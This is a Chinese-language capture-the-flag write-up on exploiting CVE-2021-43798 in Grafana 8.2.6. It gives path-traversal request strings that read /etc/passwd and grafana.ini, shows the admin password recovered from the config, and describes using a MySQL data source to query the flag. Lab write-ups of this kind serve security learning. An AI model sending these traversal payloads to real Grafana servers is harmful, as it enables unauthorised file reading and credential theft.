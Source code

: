 # oh-my-grafana-ZH

根据`CVE-2021-43798` 8.2.6版本的grafana存在未鉴权状态下的任意文件读取，使用POC

```
/public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd
```
可以证明漏洞存在，可以读取题目环境的文件信息，利用如下POC可以读取grafana的配置文件信息

```
/public/plugins/alertlist/../../../../../../../../../../../../../etc/grafana/grafana.ini
```

其中有两处信息比较可疑

```
# default admin user, created on startup
admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = 5f989714e132c9b04d4807dafeb10ade


# Either "mysql", "postgres" or "sqlite3", it's your choice
;type = mysql
;host = mysql:3306
;name = grafana
;user = grafana
# If the password contains # or ; you have to wrap it with triple quotes. Ex """#password;"""
;password = grafana
```

设置了admin的访问密码，利用密码`5f989714e132c9b04d4807dafeb10ade`可以登录后台；同时发现有一组mysql的登录密码信息，利用`Configuration`里的`Data sources`功能，指定加载远程MySQL数据服务，通过执行SQL语句读取表信息和列信息，最后读出flag。

```
select flag from fffffflllllllllaaaagggggg
```